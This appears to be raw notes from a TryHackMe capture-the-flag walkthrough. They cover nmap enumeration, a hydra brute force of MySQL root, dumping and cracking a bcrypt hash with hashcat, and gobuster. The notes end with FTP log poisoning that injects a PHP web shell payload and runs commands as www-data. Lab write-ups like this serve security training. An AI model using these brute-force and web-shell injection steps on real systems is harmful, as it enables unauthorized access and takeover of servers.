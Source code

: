 <code>
https://tryhackme.com/room/ettubrute

## Service enumetration

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.5
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 18:5a:d4:0f:2c:ae:36:9d:35:9c:83:af:da:85:a0:75 (RSA)
|   256 8b:72:5d:b3:75:27:26:6d:3f:a3:41:23:27:1e:cb:4e (ECDSA)
|_  256 6f:58:b9:06:ee:97:de:5e:64:76:55:00:4d:be:47:e7 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
3306/tcp open  mysql   MySQL 8.0.41-0ubuntu0.20.04.1
| ssl-cert: Subject: commonName=MySQL_Server_8.0.26_Auto_Generated_Server_Certificate
| Not valid before: 2021-10-19T04:00:09
|_Not valid after:  2031-10-17T04:00:09
|_ssl-date: TLS randomness does not represent time
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.41-0ubuntu0.20.04.1
|   Thread ID: 51
|   Capabilities flags: 65535
|   Some Capabilities: Speaks41ProtocolNew, Support41Auth, SwitchToSSLAfterHandshake, DontAllowDatabaseTableColumn, Speaks41ProtocolOld, LongPassword, SupportsCompression, FoundRows, ConnectWithDatabase, SupportsTransactions, IgnoreSigpipes, ODBCClient, SupportsLoadDataLocal, LongColumnFlag, IgnoreSpaceBeforeParenthesis, InteractiveClient, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: 4~L\x02ed`RsB\x08q1\x01E!L1~.
|_  Auth Plugin Name: caching_sha2_password
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

## mysql user Enumeration
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-16 11:50 CEST
Nmap scan report for 10.10.7.238
Host is up (0.032s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 8.0.41-0ubuntu0.20.04.1
|_mysql-vuln-cve2012-2122: ERROR: Script execution failed (use -d to debug)
| mysql-enum: 
|   Valid usernames: 
|     root:<empty> - Valid credentials
|     netadmin:<empty> - Valid credentials
|     guest:<empty> - Valid credentials
|     user:<empty> - Valid credentials
|     web:<empty> - Valid credentials
|     sysadmin:<empty> - Valid credentials
|     administrator:<empty> - Valid credentials
|     webadmin:<empty> - Valid credentials
|     admin:<empty> - Valid credentials
|     test:<empty> - Valid credentials
|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0
|_mysql-empty-password: ERROR: Script execution failed (use -d to debug)
| mysql-brute: 
|   Accounts: No valid accounts found
|   Statistics: Performed 0 guesses in 1 seconds, average tps: 0.0
|_  ERROR: The service seems to have failed or is heavily firewalled...
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.41-0ubuntu0.20.04.1
|   Thread ID: 116
|   Capabilities flags: 65535
|   Some Capabilities: IgnoreSpaceBeforeParenthesis, Support41Auth, Speaks41ProtocolOld, SwitchToSSLAfterHandshake, SupportsCompression, Speaks41ProtocolNew, SupportsTransactions, IgnoreSigpipes, ConnectWithDatabase, InteractiveClient, LongPassword, SupportsLoadDataLocal, FoundRows, DontAllowDatabaseTableColumn, LongColumnFlag, ODBCClient, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: \x15MGc\x1AmwX\x13bw\x1BE\x0BhH\x1Buf\x19
|_  Auth Plugin Name: caching_sha2_password

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.54 seconds


## password brute force sql
hydra -l root -P ../../www/wordlists/rockyou.txt 10.10.81.109 mysql
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-16 15:25:58
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://10.10.81.109:3306/
[3306][mysql] host: 10.10.81.109   login: root   password: rockyou
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-16 15:26:00



## mysql Enumeration


MySQL [mysql]> use website;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [website]> select * from user;
ERROR 1146 (42S02): Table 'website.user' doesn't exist
MySQL [website]> select * from userss;
ERROR 1146 (42S02): Table 'website.userss' doesn't exist
MySQL [website]> select * from userss
    -> select * from userss;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'select * from userss' at line 2
MySQL [website]> select * from users;
+----+----------+--------------------------------------------------------------+---------------------+
| id | username | password                                                     | created_at          |
+----+----------+--------------------------------------------------------------+---------------------+
|  1 | Adrian   | $2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSYxz0SKn4we | 2021-10-20 02:43:42 |
+----+----------+--------------------------------------------------------------+---------------------+
1 row in set (0.033 sec)

MySQL [website]> 


──(kali㉿kali)-[~/Documents/THM/THM_Brute]
└─$ cat hash.txt 
$A$005$n:{T^3%/{5=+Z0Y1zOxlUB7mIrlVbAxA5t4ARcqMaY6i4k1AhaU2/W1

## Adrian Hash creaking                                                                                                                                        

┌──(kali㉿kali)-[~/Documents/THM/THM_Brute]
└─$ hashcat hash.txt -m 3200 ../../../Documents/www/wordlists/rockyou.txt
hashcat (v6.2.6) starting
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72
Dictionary cache built:
* Filename..: ../../../Documents/www/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

**$2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSYxz0SKn4we:tigger**
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSY...SKn4we
Time.Started.....: Tue May 20 12:35:32 2025 (1 sec)
Time.Estimated...: Tue May 20 12:35:33 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (../../../Documents/www/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       40 H/s (3.68ms) @ Accel:4 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 32/14344385 (0.00%)
Rejected.........: 0/32 (0.00%)
Restore.Point....: 16/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1008-1024
Candidate.Engine.: Device Generator
Candidates.#1....: 654321 -> butterfly

Started: Tue May 20 12:34:47 2025
Stopped: Tue May 20 12:35:34 2025

## credentials Adrian:tigger - only for web service not for ftp/ssh

## gobuster with credentials - nothing

┌──(kali㉿kali)-[~/Documents/THM/THM_Brute]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.210.144 -x .php, .txt, .html -c PHPSESSID=6mf4a6dknljbg7it5dvurulukb

/.                    (Status: 302) [Size: 0] [--> welcome.php]
/.php                 (Status: 403) [Size: 278]
/index.php            (Status: 302) [Size: 0] [--> welcome.php]
/welcome.php          (Status: 200) [Size: 631]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/config.php           (Status: 200) [Size: 0]
/.php                 (Status: 403) [Size: 278]
/.                    (Status: 200) [Size: 1080]
/server-status        (Status: 403) [Size: 278]
Progress: 661680 / 661683 (100.00%)

## FTP log poisoning

ftp 10.10.122.127
Connected to 10.10.122.127.
220 (vsFTPd 3.0.5)
Name (10.10.122.127:kali): '<?php system($_GET['c']); ?>'
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> 

http://10.10.122.127/welcome.php?c=id
Thu May 22 09:06:33 2025 [pid 1973] ['uid=33(www-data) gid=33(www-data) groups=33(www-data) '] FAIL LOGIN: Client "::ffff:10.8.28.108"



